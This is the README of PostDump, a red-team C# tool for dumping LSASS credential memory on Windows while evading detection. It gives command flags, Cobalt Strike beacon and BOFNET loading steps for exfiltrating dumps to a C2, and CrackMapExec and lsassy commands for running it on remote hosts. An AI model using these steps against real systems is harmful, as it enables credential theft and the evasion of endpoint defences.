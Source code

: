 # PostDump

----

PostDump is a C# tool developt by COS team (CyberForce Offensive Security) of POST Luxembourg.

It is yet another simple tool to perform a LSASS memory dump using few technics to avoid detection.

![screenshot](resources/demo.png)

New PostDump version include C# / .NET implementation of the famous NanoDump's `NanoDumpWriteDump` function, which permit to dump most important LSASS modules only, without calling `MiniDumpWriteDump` Windows API function.
The dump logic code is saved under the `POSTMinidump` project, feel free to use it for your own C# / .NET project.

Such as NanoDump, you can encrypt or use an invalid signature for the minidump, but also use BOFNET to avoid touching disk and download file to CobaltStrike C2 directly.

Works on x64 only.

## Usage

Dump LSASS:

    c:\Temp>PostDump.exe --help

    -o, --output        output filename [default: Machine_datetime.dmp]

    -e, --encrypt       Encrypt dump in-memory

    -s, --signature     Generate invalid Minidump signature

    --snap              Use snapshot technic

    --fork              Use fork technic [default]

    --elevate-handle    Open a handle to LSASS with low privileges and duplicate it to gain higher privileges

    --help              Display this help screen.
  
    --version           Display version information.



## BOFNET

To use PostDump with Cobaltstrike, you must download and compile [BOFNET](https://github.com/CCob/BOF.NET):
- Build PostDump and place CommandLine.dll file into same folder as BOFNET.cna
- import the .cna file into your cobalt
- `beacon> bofnet_init`
- `beacon> bofnet_load PostDump.exe`
- `beacon> bofnet_execute POSTDump.BOFNET [args]`


## CME and LSASSY modules
- Both use embedded base64 binary and autoclean
- Will not work with --encrypt or --signature
- copy CME-module/postdump.py into your CME modules folder
- copy LSASSY-module/postdump.py into your LSASSY modules folder
- `crackmapexec smb x.x.x.x -u user -p 'password' -M postdump [--options]`
- `crackmapexec smb x.x.x.x -u user -p 'password' -M lsassy -o METHOD=postdump`


## Improvements idea
- Use Syscalls instead of Dinvoke
- AMSI/ETW patching
- Implement more dump technics (duplicate handle, seclogon ..)


## Compilation
- You can build using .NET Framework 4.5.1 as-is.
- Depending of the CLR version installed on the system where you execute PostDump, you may need to downgrade to .NET 3.5 [more info here](https://learn.microsoft.com/fr-fr/dotnet/framework/migration-guide/versions-and-dependencies)
- If you downgrade to .NET Framework 3.5, you'll need to downgrade CommandLineParser dependance too


## Credit
- TheWover for the C# implementation of [DInvoke](https://github.com/TheWover/DInvoke)
- [_EthicalChaos_](https://twitter.com/_EthicalChaos_) for the project [BOFNET](https://github.com/CCob/BOF.NET)
- [s4ntiago_p](https://twitter.com/s4ntiago_p) for the awesome NanoDump tool and its implementation of the lsass dump logic (among all other cool stuff)
